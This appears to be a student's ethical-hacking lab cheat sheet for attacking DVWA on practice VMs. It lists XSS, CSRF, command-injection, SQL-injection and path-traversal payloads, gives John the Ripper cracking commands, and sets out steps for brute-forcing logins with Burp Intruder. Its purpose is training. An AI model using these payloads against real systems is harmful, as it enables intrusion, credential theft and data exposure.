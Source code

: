 # EHD Web Application Cheat Sheet

###### tags: `EHD`

## XSS
- Trigger alert in textbox input (Type into textbox)
```html
<script>alert("Hello!")</script>
```

- Redirect to another page (Type into textbox)
```html
<script>document.location="https://www.google.com"</script>
```

- If there is a maximum length limit for text input, inspect and modify the input element
![](https://i.imgur.com/e4sSKVf.png)

- Creating a fake form (type into textbox):
```html
<form>
Input1: <input type="text"><br>
Input2: <input type="text"><br>
<input type="submit" value="submit button">
</form>
```

## CSRF
- Create a CSRF page with the following contents:
- **Example 1:** Contains image with source to change credentials
```html
<!--
Comments:
- Replace Win10-IP with own Win10 VM IP Address
- Image source set to URI dusplayed when admin password is changed
-->
This is a very new web page
<img width="1" src="http://Win10-IP/dvwa-master/vulnerabilities/csrf/?password_new=12345678&password_conf=12345678&Change=Change">
```

- **Example 2:** Contains 1x1 small iframe to manipulate website data
```html
<iframe width="1" height="1" src="https://www.imdb.com/title/tt0803096"></iframe><br>
Good Day!
```

## Command Injection
- Type IP of other machines, followed by `&& dir c:\
- Directory listing of C drive in Win10 VM shown

## SQL Injection
- Basic injection command:
```sql
ppp' or '0' = '0
```

- Retrieve more columns from table:
```sql
ppp' or '0' = '0' union select column1, column2 from table --
```

- Retrieve `information_schema` from database
```sql
ppp' or '0' = '0' union select table_schema, table_name from information_schema.tables --
```

## John The Ripper
- Crack hashed passwords inside <u>password.txt</u>
```
sudo john password.txt
```

- Run John The Ripper with various suggested formats
```
sudo john --format=raw-md5 password.txt
```

## Forced Browsing
- Manipulate the value contained in `page=` to find hidden files
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file4.php
```

## File Inclusion
- Change URL below to get non-existent page and get error to find full path of page
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=include2.php
```

- Find configuration file of Apache Web Server
```
http://Win-10/dvwa-master/vulnerabilities/fi/?page=..\..\..\..\apache\conf\httpd.conf
```

## Burp Suite
### Setting Up
- Launch Burp Suite
```
sudo burpsuite
```

- Browse to DVWA on Kali VM
```
http://192.168.10.100/dvwa-master
```

> Ensure that Windows Firewall not blocking access to DVWA (Add Exception Port 80 if needed)

- Configure proxy in Firefox browser
![](https://i.imgur.com/N1Xnd9N.png)

- Go to **Proxy** tab and 

### Brute Force Password with Dictionary Lists
- Create new files and store list of usernames
- Create another new file with list of passwords
- Turn on Intercept in **Proxy** tab
- Login with credentials in DVWA
- Forward packets intercepted by Burp until username and password found
- Click **Action** -> **Send to Intruder** -> **Positions**
- Request sent with parameters highlighted
- Add username and password to get username and password payloads
- Set attack type to **cluster bomb**
- Set one payload for username and one payload for password
- Load username and password list in respective payloads
- Check **Store requests** and **Store responses**
- Start Attack
